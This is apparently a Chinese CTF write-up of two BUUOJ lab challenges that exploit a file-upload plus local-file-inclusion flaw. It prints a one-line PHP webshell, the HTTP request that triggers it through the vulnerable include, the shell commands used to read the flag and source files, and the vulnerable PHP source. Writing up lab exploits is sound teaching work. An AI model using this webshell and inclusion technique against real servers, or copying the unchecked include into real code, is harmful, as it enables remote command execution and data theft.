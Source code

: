 # UPLOAD1 COURSE

## 渗透过程

第一眼文件上传，试着正常上传发现没有任何过滤，但是上传的文件后缀名全都会被改成`jpg`.

尝试上传`demo.php`，并通过拦截吧文件类型更改

```http
Content-Type: image/bmp
```

但是无济于事，返回文件还是jpg。并且访问也是jpg形式。

在网上查到一些关于PHP上传漏洞的Blog

> [php文件包含漏洞 | Chybeta](https://chybeta.github.io/2017/10/08/php文件包含漏洞/)

先上传一个木马文件

```php
// upload.php
<?php @eval(system($_POST["x"]));
```

然后再通过Post请求发送木马指令。

```http
POST /index.php?file=%木马上传后保存的地址% HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,en-GB;q=0.6
Cache-Control: no-cache
Content-Length: 16
Content-Type: application/x-www-form-urlencoded
DNT: 1
Host: b2449bc8-5645-4087-a01d-c56baf1316b9.node4.buuoj.cn:81
Origin: http://b2449bc8-5645-4087-a01d-c56baf1316b9.node4.buuoj.cn:81
Pragma: no-cache
Proxy-Connection: keep-alive
Referer: http://b2449bc8-5645-4087-a01d-c56baf1316b9.node4.buuoj.cn:81/index.php?file=uploads/658231a4d4631.jpg
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0

x=%木马%
```

使用`x=ls`返回目录下的文件

![image-20231220085434816](C:\Users\35098\AppData\Roaming\Typora\typora-user-images\image-20231220085434816.png)

`cd /;ls` 返现flag文件。

`cat flag`得到flag。

## 漏洞复盘

网上说这个是个文件包含的漏洞，但是没有给出具体的代码，既然已经拿到了webshell，那就自己尝试获取这个源码吧。

尝试`cat index.php`，但是不知道为啥报错

```html
Parse error: syntax error, unexpected '}', expecting end of file in /var/www/html/uploads/65823e50835bc.jpg(1) : eval()'d code on line 1
```

突然想到看一下前端页面的源码，发现自己是个Joker。

人家都把源码摆在前端页面里了。

```php
// index.php
if(isset($_GET['file'])) {
    $re = '/^uploads\/[\d|\w]*.jpg$/m';
    $str = $_GET['file'];

    preg_match_all($re, $str, $matches, PREG_SET_ORDER, 0);

    if(count($matches) == 0 && $_GET['file'] !== 'upload.php') {
        die('你不老实哦~');
    }

    include $_GET['file'];
} else {
    Header('Location: index.php?file=upload.php');
}
```

这里还有个`upload.php`，也想看看源码。

但是人家不给，那我就尝试换个姿势看文件

`tac upload.php`，这个居然起作用，但是输出是逆序的，调整后得到`upload.php`

```php
//upload.php
@mkdir("uploads/");
if(isset($_FILES['upload_file'])) {
    $filename = uniqid().".jpg";
    move_uploaded_file($_FILES["upload_file"]["tmp_name"], "uploads/".$filename);
}
echo "文件已储存在: " . "uploads/" . $filename;
```

关键就在于`index.php`中存在`include`

## LFI COURSE 1

进入靶场直接给源码，世界上还是好人多

```php
<?php
highlight_file(__FILE__);

if(isset($_GET['file'])) {
    $str = $_GET['file'];

    include $_GET['file'];
}
```

额，这不和上面的题目一样吗?而且没有任何防护

那不就简简单单。

区别在与这里使用的是get。虽然我们可以通过伪协议间接上传文件，但是这里没有必要，应为我们可以直接将`flag`文件包含进来然后直接回显。

`?file=flag`，直接爆出flag

